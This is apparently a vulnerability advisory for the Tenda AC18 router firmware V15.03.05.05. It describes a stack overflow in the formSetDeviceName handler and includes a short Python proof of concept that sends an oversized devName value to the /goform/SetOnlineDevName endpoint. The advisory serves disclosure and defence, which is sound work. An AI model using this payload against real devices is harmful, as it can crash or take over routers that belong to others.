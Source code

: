 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `v7` variable receives the `devName` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v7` can trigger this security vulnerability.

![image-20240306170433342](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306170433342.png)

![image-20240306170444112](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306170444112.png)

![image-20240306170453887](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306170453887.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*2000

data = {"mac": 1,"devName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306171156310](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171156310.png)
